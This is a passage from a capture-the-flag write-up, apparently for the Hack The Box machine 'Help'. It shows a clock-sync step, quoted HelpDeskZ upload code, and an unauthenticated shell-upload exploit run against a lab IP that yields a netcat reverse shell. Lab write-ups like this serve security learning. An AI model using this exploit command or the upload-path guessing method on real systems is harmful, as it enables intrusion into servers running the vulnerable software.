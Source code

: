 <pre>
root@kali:~/htb/help# python timesync.py
Original system date:
Wed 22 May <b><u>18:37:33</u></b> UTC 2019
HELP Datetime: 2019-05-22 <b><u>18:28:01</u></b>
new system date:
Wed 22 May <b><u>18:28:01</u></b> UTC 2019
</pre>

*[After changing the local system time, it would revert back within a few seconds, even after disabling any kind of NTP daemon and service I could find!  I finally tracked it down to the Guest Additions of VirtualBox being too 'helpful'. After disabling* `vboxadd-service` *the time change stuck.]*

After this the exploit still failed.

So I read the exploit script *again*.  In the description it has a link to the HelpDeskZ source code file that contains the vulnerability so I checked that out on [github](https://github.com/evolutionscript/HelpDeskZ-1.0) and here I found out the path that files are uploaded to; this needs to included in the first parameter of the exploit.

##### HelpDeskZ-1.0/controllers/submit_ticket_controller.php
*https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/controllers/submit_ticket_controller.php*
<pre>
137   if(!isset($error_msg) && $settings['ticket_attachment']==1){
138     <em><b><u>$uploaddir = UPLOAD_DIR.'tickets/';</u></b></em>
139     if($_FILES['attachment']['error'] == 0){
140     $ext = pathinfo($_FILES['attachment']['name'], PATHINFO_EXTENSION);
141     <em><b><u>$filename = md5($_FILES['attachment']['name'].time()).".".$ext;</u></b></em>
142     $fileuploaded[] = array('name' => $_FILES['attachment']['name'],
143     'enc' => $filename,
144     'size' => formatBytes($_FILES['attachment']['size']),
145     'filetype' => $_FILES['attachment']['type']);
146     $uploadedfile = $uploaddir.$filename;
</pre>__

##### HelpDeskZ-1.0/includes/global.php
*https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/includes/global.php*
```
18   define('UPLOAD_DIR', ROOTPATH . 'uploads/');
```

So with the time on my machine in sync with HELP and the right path set I was ready to try again.
```
root@kali:~/htb/help# python exploit.py http://10.10.10.121/support/uploads/tickets/ rshell.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
found!
http://10.10.10.121/support/uploads/tickets/fc7240781f3464afcebb47bd8da49b9a.php
```

Now I had a reverse shell through netcat from which I went straight for the user flag

![alt text](https://github.com/imp0ster-net/htb/blob/master/help/img/04_help_nc-shell.png "netcat shell")
![alt text](https://github.com/imp0ster-net/htb/blob/master/help/img/05_help_nc-commands.png "user flag")
